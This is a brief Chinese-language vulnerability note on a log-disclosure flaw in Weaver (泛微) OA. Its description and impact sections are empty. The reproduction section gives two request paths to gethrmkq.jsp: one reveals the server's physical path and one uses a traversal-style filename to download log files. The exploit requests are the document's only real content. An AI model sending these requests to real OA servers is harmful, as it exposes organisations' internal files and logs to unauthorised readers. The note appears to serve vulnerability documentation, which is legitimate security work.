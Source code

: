# 泛微oa 日志泄露

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

读取物理路径


```bash
hrm/kq/gethrmkq.jsp?filename=1
```

日志下载


```bash
hrm/kq/gethrmkq.jsp?filename=1..\1..\1.txt
```
